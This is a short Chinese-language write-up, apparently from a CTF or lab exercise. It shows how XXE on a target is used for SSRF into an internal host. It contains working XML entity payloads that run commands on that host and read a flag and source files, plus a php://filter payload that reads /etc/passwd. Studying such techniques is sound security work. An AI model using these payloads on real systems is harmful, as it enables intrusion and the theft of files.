

---
tags:
  - XXE
  - SSRF
  - WEB
Date: 2026-01-05
---
通过当前主机A作为跳板利用SSRF获取内网主机的信息

`*`得到内网ip`10.1.2.3`后
使用http伪协议


回显了执行命令的提示
这就是获取了内网主机的信息
```http
<result><code>0</code><msg>请输入要执行的命令，例如：http://ip/?cmd=ls</msg></result>
```

根据提示更改DTD声明的SYSTEM内容即可获取数据

例如，空格使用url编码形式
```http
<!DOCTYPE root [<!ENTITY guc SYSTEM "http://10.1.2.3/?cmd=cat%20flag">]>
```

因此，实际上是借用此靶场调用了http伪协议从而访问了内网主机，在内网回显信息，而不是在本靶场

如果要读取源代码，可以接着使用php伪协议读取目标主机的文件
```php
php://filter/read=convert.base64-encode/resource=/etc/passwd
```

嵌套http协议
```XML
<!DOCTYPE root [<!ENTITY guc SYSTEM "php://filter/read=convert.base64-encode/resource=http://10.1.2.3/?cmd=cat%20index.php">]>
```



通过base64即可读取被执行的php文件